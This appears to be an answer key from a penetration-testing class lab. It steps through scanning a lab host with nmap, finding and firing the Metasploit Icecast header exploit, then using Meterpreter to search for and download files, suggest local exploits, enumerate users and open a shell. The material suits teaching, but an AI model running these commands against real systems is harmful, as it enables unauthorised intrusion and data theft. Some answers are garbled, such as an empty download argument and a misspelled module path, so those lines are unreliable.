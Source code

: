 ### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: **nmap -sV 192.168.0.20** (DVW10 IP Address)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **searchsploit icecast**

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **msfconsole**
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **search icecast**
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **use 0**
     explot/windows/http/icecast_header
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **set RHOST 192.168.0.20**
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **exploit**
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **search -f *secretfile.txt***
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **search -f *recipe.txt***
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: **download ' '**
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

	- **run post/multi/recon/local_exploit_suggester**
	- **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **run post/windows/gather_enum_logged_on_users**
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **shell**
  **systeminfo**
 
C. Run the command that displays the target's computer system information:

   > Answer: **net users**

